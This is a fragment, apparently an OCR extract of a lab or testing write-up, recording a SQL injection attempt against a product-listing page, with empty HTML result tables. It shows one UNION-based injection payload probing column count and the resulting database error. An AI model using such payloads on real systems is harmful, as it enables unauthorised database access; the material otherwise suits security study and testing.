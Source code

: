    </b>
  </td>
 </tr>
 <tr>
  <td style="width:200px">
  </td>
  <td style="width:200px">
  </td>
  <td style="width:450px">
  </td>
  <td style="width:110px">
  </td>
 </tr>
</table>



    
    ------------------------------------------------------------------------------------------------------------------------------------------------------
    
    Payload: 1' UNION SELECT NULL, NULL, NULL, NULL -- 
    The used SELECT statements have a different number of columns
    Result table:



<table>
 <tr>
  <td style="width:200px ">
   <b>
    Product Name
   </b>
  </td>
  <td style="width:200px ">
   <b>
    Product Type
   </b>
  </td>
  <td style="width:450px ">
   <b>
    Description
   </b>
  </td>
  <td style="width:110px ">
   <b>
    Price (in USD)
   </b>
  </td>
 </tr>
 <tr>
  <td style="width:200px">
  </td>
  <td style="width:200px">
  </td>
  <td style="width:450px">
  </td>
  <td style="width:110px">
  </td>
 </tr>
</table>
